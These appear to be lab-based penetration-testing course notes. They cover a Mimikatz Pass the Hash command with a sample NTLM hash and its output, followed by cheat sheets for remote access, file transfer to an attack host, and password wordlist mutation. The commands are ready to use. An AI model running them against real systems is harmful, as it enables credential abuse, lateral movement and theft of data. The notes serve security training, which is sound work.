 The first tool we will use to perform a Pass the Hash attack is Mimikatz. Mimikatz has a module named sekurlsa::pth that allows us to perform a Pass the Hash attack by starting a process using the hash of the user's password. To use this module, we will need the following:

    /user - The user name we want to impersonate.
    /rc4 or /NTLM - NTLM hash of the user's password.
    /domain - Domain the user to impersonate belongs to. In the case of a local user account, we can use the computer name, localhost, or a dot (.).
    /run - The program we want to run with the user's context (if not specified, it will launch cmd.exe).

```c
c:\tools> mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
user    : julio
domain  : inlanefreight.htb
program : cmd.exe
impers. : no
NTLM    : 64F12CDDAA88057E06A81B54E73B949B
  |  PID  8404
  |  TID  4268
  |  LSA Process was already R/W
  |  LUID 0 ; 5218172 (00000000:004f9f7c)
  \_ msv1_0   - data copy @ 0000028FC91AB510 : OK !
  \_ kerberos - data copy @ 0000028FC964F288
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 0000028FC9673AE8 (32) -> null

```

## Commands 
|**Command**|**Description**|
|---|---|
|`xfreerdp /v:<ip> /u:htb-student /p:HTB_@cademy_stdnt!`|CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol.|
|`evil-winrm -i <ip> -u user -p password`|Uses Evil-WinRM to establish a Powershell session with a target.|
|`ssh user@<ip>`|Uses SSH to connect to a target using a specified user.|
|`smbclient -U user \\\\<ip>\\SHARENAME`|Uses smbclient to connect to an SMB share using a specified user.|
|`python3 smbserver.py -smb2support CompData /home/<nameofuser>/Documents/`|Uses smbserver.py to create a share on a linux-based attack host. Can be useful when needing to transfer files from a target to an attack host.|
## Password Mutations

|**Command**|**Description**|
|---|---|
|`cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist`|Uses cewl to generate a wordlist based on keywords present on a website.|
|`hashcat --force password.list -r custom.rule --stdout > mut_password.list`|Uses Hashcat to generate a rule-based word list.|
|`./username-anarchy -i /path/to/listoffirstandlastnames.txt`|Users username-anarchy tool in conjunction with a pre-made list of first and last names to generate a list of potential username.|
|`curl -s https://fileinfo.com/filetypes/compressed \| html2text \| awk '{print tolower($1)}' \| grep "\." \| tee -a compressed_ext.txt`|Uses Linux-based commands curl, awk, grep and tee to download a list of file extensions to be used in searching for files that could contain passwords.|
## Remote Password Attacks

